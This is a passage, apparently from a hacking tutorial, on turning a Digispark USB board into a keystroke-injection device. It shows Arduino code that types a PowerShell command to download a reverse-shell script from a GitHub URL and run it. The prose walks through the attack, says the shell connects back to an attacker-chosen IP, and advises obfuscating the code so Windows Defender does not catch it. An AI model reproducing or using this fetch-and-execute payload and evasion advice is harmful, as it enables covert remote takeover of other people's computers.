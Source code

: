 ```
  DigiKeyboard.print("Invoke-WebRequest -Uri 'https://github.com/Sic4rio/OSCP-2023/raw/main/shells/sh3ll.ps1' -OutFile 'payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("./payload.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*Stops the Digispark from running the script again*/
  }
}
```


It starts by sending the Windows Key and R to the computer, opening the Run dialog box. After a brief delay, it types out "powershell.exe" into the Run dialog box and then sends the Enter key. This spawns a new Powershell window.

In the new Powershell Window, it types out a command to download another payload from a URL. After a brief delay, it then executes the payload.


Please note that the following Powershell script will probably be caught by Windows Defender. However, with some tinkering like renaming variables and obfuscating the code, it will not be detected. The following script is a reverse shell that will attempt to connect back to the IP address and port that you specify.

Writing Payloads To Digispark

Once you have your payloads ready, it's time to write the payload to the Digispark. It's important that you don't plug in the Digispark first.

First, paste your code into the Arduino IDE and then click the upload button. This will then spawn a terminal at the bottom of the application prompting you to plugin the device. You should now be able to plug in your Digispark. Once the terminal reads 100%, the payload will automatically execute. Probably best if you don't try to use any payload that can potentially damage your computer.


![Reverse Shell Example](</assets/Untitled (7).png>)